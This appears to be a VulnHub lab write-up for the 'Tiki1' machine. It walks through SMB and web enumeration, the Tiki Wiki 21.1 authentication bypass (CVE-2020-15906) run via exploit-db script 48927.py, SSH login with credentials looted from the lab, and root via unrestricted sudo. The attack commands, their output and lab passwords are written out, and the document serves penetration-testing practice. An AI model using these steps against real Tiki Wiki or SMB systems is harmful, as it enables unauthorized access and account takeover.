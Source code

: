 # Table of contents

- [Recon](#recon)
  - [NMAP](#nmap)
  - [TCP/139,445 - SMB](#tcp139445---smb)
    - [Enum4linux](#enum4linux)
    - [Crackmapexec + SMBMap](#crackmapexec--smbmap)
  - [TCP/80](#tcp80)
    - [FFUF](#ffuf)
- [Initial Foothold](#initial-foothold)
  - [TCP/139,445 - SMB](#tcp139445---smb)
  - [TCP/80 - HTTP](#tcp80---http)
  - [TCP/22 - SSH](#tcp22---ssh)
- [Privilege Escalation](#privilege-escalation)
  - [Root via Sudo](#root-via-sudo)

# Recon

## NMAP
- tcp/22
- tcp/80
- tcp/139
- tcp/445
- udp/137
- udp/5353

## TCP/139,445 - SMB

###  Enum4linux
```
[*] Users via RPC on 192.168.110.104   
[*] Enumerating users via 'querydispinfo'
[+] Found 1 users via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 1 users via 'enumdomusers'
[+] After merging user results we have 1 users total:
'1000':
	username: silky
	name: Silky
	acb: '0x00000010'
	description: ''
```
- User `silky`

### Crackmapexec + SMBMap
![](images/Pasted%20image%2020220121224951.png)
- Able to read `Notes` fileshare

## TCP/80
### FFUF
```
┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104]
└─# ffuf -u http://$ip/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.110.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376]
robots.txt              [Status: 200, Size: 42, Words: 4, Lines: 4]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
tiki                    [Status: 301, Size: 317, Words: 20, Lines: 10]
:: Progress: [4614/4614] :: Job [1/1] :: 6140 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
- `robots.txt`
- `tiki`




# Initial Foothold

## TCP/139,445 - SMB 
1. Earlier, we enumerated SMB Fileshare w/ a NULL session, we have READ access to `Notes` fileshare
2. Download all files in `Notes` fileshare & view its content
	```
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	└─# smbclient //$ip/Notes -c 'prompt;recurse;mget *'
	Enter WORKGROUP\root's password: 
	getting file \Mail.txt of size 244 as Mail.txt (14.0 KiloBytes/sec) (average 14.0 KiloBytes/sec)
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	└─# ls
	Mail.txt
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	└─# cat Mail.txt 
	Hi Silky
	because of a current Breach we had to change all Passwords,
	please note that it was a 0day, we don't know how he made it.

	Your new CMS-password is now 51lky571k1, 
	please investigate how he made it into our Admin Panel.

	Cheers Boss.

	```
## TCP/80 - HTTP
1. Proceed to `/tiki`
	![](images/Pasted%20image%2020220121230715.png)
2. Proceed to `/tiki/tiki-login.php`
	![](images/Pasted%20image%2020220121230848.png)
3. Login w/ silky:`51lky571k1`
	![](images/Pasted%20image%2020220121232020.png)
4. Proceed to `/tiki/tiki-listpages.php`
	![](images/Pasted%20image%2020220121232452.png)
	![](images/Pasted%20image%2020220121232527.png)
5. After looking through the History of Silky homepage, found this
	![](images/Pasted%20image%2020220121232639.png)
	- `CVE-2020-15906`
6. View `CVE-2020-15906` - Tiki 21.1-2
	- https://www.exploit-db.com/exploits/48927
	- https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-15906
		![](images/Pasted%20image%2020220121232946.png)
		- We are able to set admin's password to a blank value after 50 failed login attempts.
7. Search for exploits 
	```
	 ┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	 └─# searchsploit tiki 21
	------------------------------------------------------------------------------------
	Exploit Title                                        |  Path				
	------------------------------------------------------------------------------------
	Tiki Wiki CMS Groupware 21.1 - Authentication Bypass | php/webapps/48927.py
	------------------------------------------------------------------------------------
	```
8. Use exploit
	```
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/exploit/tiki-21.1]
	└─# python3 48927.py $ip
	Admin Password got removed.
	Use BurpSuite to login into admin without a password 

	```
9. Login w/ admin:blank w/ Burpsuite
	1. Login w/ admin:test
	2. Intercept w/ burp and remove the password test
		![](images/Pasted%20image%2020220121233907.png)
	3. Turn off intercept
10. Proceed to List Pages -> Credentials
	![](images/Pasted%20image%2020220121235530.png)
	- silky:Agy8Y7SPJNXQzqA

## TCP/22 - SSH
1. SSH w/ silky:Agy8Y7SPJNXQzqA
![](images/Pasted%20image%2020220121235722.png)

# Privilege Escalation

## Root via Sudo
```
silky@ubuntu:~$ sudo -l
[sudo] Passwort für silky: 
Das hat nicht funktioniert, bitte nochmal probieren.
[sudo] Passwort für silky: 
Passende Defaults-Einträge für silky auf ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

Der Benutzer silky darf die folgenden Befehle auf ubuntu ausführen:
    (ALL : ALL) ALL
silky@ubuntu:~$ sudo su
root@ubuntu:/home/silky# whoami
root
root@ubuntu:/home/silky# 

```
![](images/Pasted%20image%2020220121235821.png)

---
